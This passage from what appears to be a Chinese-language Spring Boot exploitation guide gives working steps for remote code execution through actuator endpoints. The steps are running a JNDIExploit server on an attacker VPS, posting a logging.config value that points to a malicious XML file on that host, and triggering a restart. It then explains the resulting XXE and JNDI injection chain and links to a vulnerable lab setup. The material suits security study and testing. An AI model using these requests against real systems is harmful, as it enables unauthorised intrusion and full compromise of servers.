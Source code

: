 ```
java -jar JNDIExploit-1.0-SNAPSHOT.jar -i your-vps-ip
```

**步骤三：设置 logging.config 属性**

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

logging.config=http://your-vps-ip/example.xml
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"logging.config","value":"http://your-vps-ip/example.xml"}
```

**步骤四：重启应用**

spring 1.x

```
POST /restart
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```
POST /actuator/restart
Content-Type: application/json
```

**漏洞原理：**

1. 目标机器通过 logging.config 属性设置 logback 日志配置文件 URL 地址
2. restart 重启应用后，程序会请求 URL 地址获得恶意 xml 文件内容
3. 目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)
4. xml 文件中利用 `logback` 依赖的 `insertFormJNDI` 标签，设置了外部 JNDI 服务器地址
5. 目标机器请求恶意 JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞

**漏洞分析：**

​ [spring boot actuator rce via jolokia](https://xz.aliyun.com/t/4258)

​ [https://landgrey.me/blog/21/](https://landgrey.me/blog/21/)

**漏洞环境：**

[repository/springboot-restart-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-restart-rce)

正常访问：

```
http://127.0.0.1:9098/actuator/env
```
